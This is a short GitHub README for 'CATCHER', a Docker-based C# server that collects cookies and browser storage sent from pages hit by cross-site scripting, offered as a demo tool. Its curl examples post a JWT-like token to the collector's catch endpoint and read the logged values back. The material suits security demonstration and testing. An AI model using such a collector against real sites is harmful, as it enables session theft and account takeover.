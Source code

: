 [![Twitter Follow](https://img.shields.io/twitter/follow/code_emitter.svg?style=social&label=Follow)](https://twitter.com/code_emitter)

# CATCHER - C# Cookie Catcher Sample Code

Spin up a quick web server to demo, for example, potential XSS
vulnerabilities by logging cookie content, local or session storage
data, etc.  Runs completely in memory and stores data for
the life of the docker container.  Simple, easy to use, with
quick spin up and tear down.

### Installation and Usage

#### Dependencies

1. [Docker](https://docs.docker.com/install/)
1. [Docker-Compose](https://docs.docker.com/compose/install/)
1. Some way to make an http request from your target that is compatible with the type of exploit. 

###### Start the server in detached mode:
```shell
docker-compose up -d
```

###### Post a payload to the server:
```shell
curl -d "'jwt:6ba8c0s0394xodeh'" -H "Content-Type: application/json" -X POST http://localhost:5000/api/v1/catch/mem/simplelist -w "/n"
```

###### Retrieve all values you've posted:
***Notice that only unique values are stored
```shell
curl http://localhost:5000/api/v1/catch/mem/simplelist -w "\n"
```

###### Rest the memory and start over if you like:
```shell
curl -H "Content-Type: application/json" -X DELETE http://localhost:5000/api/v1/catch/mem/simplelist -w "\n"
```

###### Stop the running container:
```shell
docker-compose down
```
